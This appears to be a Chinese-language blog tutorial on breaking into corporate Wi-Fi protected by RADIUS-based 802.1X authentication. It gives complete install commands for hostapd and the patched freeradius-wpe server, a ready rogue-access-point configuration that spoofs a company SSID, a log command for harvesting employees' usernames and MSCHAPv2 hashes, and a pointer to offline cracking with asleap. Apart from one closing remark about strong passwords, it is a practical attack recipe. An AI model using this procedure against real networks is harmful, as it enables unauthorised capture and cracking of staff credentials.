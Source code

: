 # 破解使用radius实现802.1x认证的企业无线网络

0x01前言概述
=====

针对开放式(没有密码)无线网络的企业攻击，我个人感觉比较经典的攻击方式有2种，一种是`eviltwin`，一种是`karma`。`karma`应该是`eviltwin`攻击手法的升级版，攻击者只需要简单的监听客户端发的ssid探测和响应包就可以实现中间人了，受害者很少会有察觉。而且坊间曾有一个错误的认识，认为隐藏的ssid是不受`karma`影响的。但是实际情况是，客户端如果曾经连接过隐藏的ssid，也会广播这些网络的探测包。尽管`karma`这种攻击方式已经有10多年的历史了，但是在MAC OSX，ubuntu，老版本的andorid系统上依然有效。win7的默认配置居然是防护`karma`攻击的。

对加密的无线网络，针对个人网络，很多是使用**wpa2-psk**预共享密钥的方法来限制访问。而公司的无线网络有使用**wpa2**企业认证的，也有使用**radius**服务提供独立的用户名和密码来实现802.1x标准认证的。

0x02 实现过程
=====

我这里是的攻击是使用`hostapd`扮演一个无线访问点，然后通过打补丁的`freeraidus wpe`来捕捉密码hash，最后用`asleep`来离线破解密码，来对抗相对安全的使用**radius**服务器提供独立的用户名和密码实现的802.1x认证的企业无线网络环境。

所需设备：

```
TP-LINK TL-WN821N 
Kali 1.1.0

```

首先安装`freeradius-wpe`,既可以使用`dpkg`直接安装`freeradius-server-wpe_2.1.12-1_i386.deb`,也可以通过源码编译来安装，通过deb包安装方法的命令如下：

```
wget https://github.com/brad-anton/freeradius-wpe/raw/master/freeradius-server-wpe_2.1.12-1_i386.deb
dpkg --install freeradius-server-wpe_2.1.12-1_i386.deb
ldconfig
cd /usr/local/etc/raddb/certs
./bootstrap && ldconfig

```

![the progress pictures](http://drops.javaweb.org/uploads/images/1fbeffcef3196d3bcc5846011b60faa79621cf6b.jpg)

通过源码安装的步骤如下：

```
git clone https://github.com/brad-anton/freeradius-wpe.git
wget ftp://ftp.freeradius.org/pub/freeradius/freeradius-server-2.1.12.tar.bz2  
tar jxvf freeradius-server-2.1.12.tar.bz2
patch -p1 < ../freeradius-wpe.patch   
./configure
make install

```

![the progress pictures](http://drops.javaweb.org/uploads/images/2194ce0d988f6d0e571512ef5e33c905f77ffb7d.jpg)

然后执行`radiusd -X`开启`debug`模式验证是否安装成功，如果运行此命令的时候提示

```
Failed binding to /usr/local/var/run/radiusd/radiusd.sock: No such file or directory

```

则需要建立相应的目录

```
root@HackRF:/usr/local/etc/raddb/certs# mkdir -p /usr/local/var/run/radiusd/

```

接下来安装`hostapd`，命令如下：

```
wget http://hostap.epitest.fi/releases/hostapd-2.0.tar.gz
tar zxvf hostapd-2.0.tar.gz
cd hostapd-2.0/hostapd/
cp defconfig .config
make

```

![the progress pictures](http://drops.javaweb.org/uploads/images/9f29566a13610f15f2bf1c77e08a71cb49f71e65.jpg)

如果安装的时候提示：

```
../src/drivers/driver_nl80211.c:19:31: fatal error: netlink/genl/genl.h: No such file or directory
compilation terminated.
make: *** [../src/drivers/driver_nl80211.o] Error 1

```

则需要安装`libnl`开发包，命令如下：

```
root@HackRF:/hostapd-2.0/hostapd# sudo apt-get install libnl1 libnl-dev

```

然后编辑`hostapd-wpe.conf`文件，如下

```
interface=wlan0
driver=nl80211
ssid=corp-lobby
country_code=DE
logger_stdout=-1
logger_stdout_level=0
dump_file=/tmp/hostapd.dump
ieee8021x=1
eapol_key_index_workaround=0
own_ip_addr=127.0.0.1
auth_server_addr=127.0.0.1
auth_server_port=1812
auth_server_shared_secret=testing123
auth_algs=3
wpa=2
wpa_key_mgmt=WPA-EAP
channel=1
wpa_pairwise=CCMP
rsn_pairwise=CCMP

```

实际操作需要修改的地方只有ssid项，如果你的目标企业无线网络的ssid叫corp-lobby，则修改`ssid=corp-lobby`,运行`hostapd -dd hostapd-wpe.conf`开启伪造的无线热点

这时候如果有企业员工在你附近，他的手机会自动连接你的伪造的无线热点，你就可以通过

```
tail -f /usr/local/var/log/radius/freeradius-server-wpe.log

```

看到抓到的用户名和MSCHAPv2的响应hash和挑战hash。

![the progress pictures](http://drops.javaweb.org/uploads/images/9fdee59e96da1cb5192655189de8555b65bfcbd1.jpg)

有了challenge和response，就可以使用`asleep`工具来基于字典的暴力破解，命令如下

![the progress pictures](http://drops.javaweb.org/uploads/images/d4d48bec5ada7a867d354fb7ce0c6c4de2b94aa6.jpg)

使用**radius**实现802.1x认证的企业无线网络相对来说还是比较安全的，如果每个用户的密码足够复杂的话。后续的国外研究者也对这种攻击增加了针对客户端和路由设备的心跳漏洞的工具，集成的项目叫**cupid**,有兴趣的可以参考[http://www.sysvalue.com/en/heartbleed-cupid-wireless/](http://www.sysvalue.com/en/heartbleed-cupid-wireless/)

0x03 参考文章
=====

[http://phreaklets.blogspot.sg/2013/06/cracking-wireless-networks-protected.html](http://phreaklets.blogspot.sg/2013/06/cracking-wireless-networks-protected.html)[https://insights.sei.cmu.edu/cert/2015/08/instant-karma-might-still-get-you.html](https://insights.sei.cmu.edu/cert/2015/08/instant-karma-might-still-get-you.html)